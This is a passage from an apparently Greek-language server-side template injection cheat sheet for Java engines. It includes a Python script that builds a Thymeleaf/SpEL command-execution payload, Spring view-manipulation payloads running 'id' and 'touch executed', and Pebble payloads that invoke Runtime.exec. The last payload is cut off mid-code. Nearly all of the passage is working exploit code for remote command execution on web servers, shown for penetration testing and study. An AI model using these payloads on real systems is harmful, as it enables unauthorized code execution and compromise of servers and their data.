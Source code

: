 ```python
cmd = list(argv[1].strip())
print("Payload: ", cmd , end="\n\n")
converted = [ord(c) for c in cmd]
base_payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec'
end_payload = '.getInputStream())}'

count = 1
for i in converted:
if count == 1:
base_payload += f"(T(java.lang.Character).toString({i}).concat"
count += 1
elif count == len(converted):
base_payload += f"(T(java.lang.Character).toString({i})))"
else:
base_payload += f"(T(java.lang.Character).toString({i})).concat"
count += 1

print(base_payload + end_payload)
```
**Περισσότερες Πληροφορίες**

- [Thymleaf SSTI](https://javamana.com/2021/11/20211121071046977B.html)
- [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---retrieve-etcpasswd)

### Manipulation Άποψης Spring (Java)
```java
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x
__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x
```
- [https://github.com/veracode-research/spring-view-manipulation](https://github.com/veracode-research/spring-view-manipulation)


{{#ref}}
el-expression-language.md
{{#endref}}

### Pebble (Java)

- `{{ someString.toUPPERCASE() }}`

Παλαιά έκδοση του Pebble ( < έκδοση 3.0.9):
```java
{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}
```
Νέα έκδοση του Pebble :
```java
{% raw %}
{% set cmd = 'id' %}
{% endraw %}






{% set bytes = (1).TYPE
.forName('java.lang.Runtime')
.methods[6]
.invoke(null,null)
.exec(cmd)
.inputStream
.readAllBytes() %}
{{ (1).TYPE
```
